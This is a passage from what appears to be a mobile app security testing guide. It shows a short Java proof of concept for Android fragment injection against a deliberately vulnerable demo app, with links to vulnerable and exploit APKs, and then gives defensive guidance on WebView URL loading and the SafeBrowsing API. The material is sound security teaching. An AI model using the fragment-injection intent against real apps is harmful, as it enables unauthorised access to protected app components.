 To exploit this vulnerable Activity, you can create an application with the
following code:

```java
Intent i = new Intent();
i.setFlags(Intent.FLAG_ACTIVITY_CLEAR_TASK);
i.setClassName("pt.claudio.insecurefragment","pt.claudio.insecurefragment.MainActivity");
i.putExtra(":android:show_fragment","pt.claudio.insecurefragment.MyFragment");
Intent intent = i.setData(Uri.parse("https://security.claudio.pt"));
startActivity(i);
```

The
[Vulnerable App](https://github.com/clviper/android-fragment-injection/raw/master/vulnerableapp.apk "Vulnerable App Fragment Injection")
and
[Exploit PoC App](https://github.com/clviper/android-fragment-injection/blob/master/exploit.apk "PoC App to exploit Fragment Injection")
are available for downloading.

## Testing for URL Loading in WebViews (MSTG-PLATFORM-2)

### Overview

WebViews are Android's embedded components which allow your app to open web
pages within your application. In addition to mobile apps related threats,
WebViews may expose your app to common web threats (e.g. XSS, Open Redirect,
etc.).

One of the most important things to do when testing WebViews is to make sure
that only trusted content can be loaded in it. Any newly loaded page could be
potentially malicious, try to exploit any WebView bindings or try to phish the
user. Unless you're developing a browser app, usually you'd like to restrict the
pages being loaded to the domain of your app. A good practice is to prevent the
user from even having the chance to input any URLs inside WebViews (which is the
default on Android) nor navigate outside the trusted domains. Even when
navigating on trusted domains there's still the risk that the user might
encounter and click on other links to untrustworthy content (e.g. if the page
allows for other users to post comments). In addition, some developers might
even override some default behavior which can be potentially dangerous for the
user. See the Static Analysis section below for more details.

#### SafeBrowsing API

To provide a safer web browsing experience, Android 8.1 (API level 27)
introduces the
[`SafeBrowsing API`](https://developers.google.com/safe-browsing/v4), which
allows your application to detect URLs that Google has classified as a known
threat.

By default, WebViews show a warning to users about the security risk with the
option to load the URL or stop the page from loading. With the SafeBrowsing API
you can customize your application's behavior by either reporting the threat to
SafeBrowsing or performing a particular action such as returning back to safety
each time it encounters a known threat. Please check the
[Android Developers documentation](https://developer.android.com/about/versions/oreo/android-8.1#safebrowsing)
for usage examples.
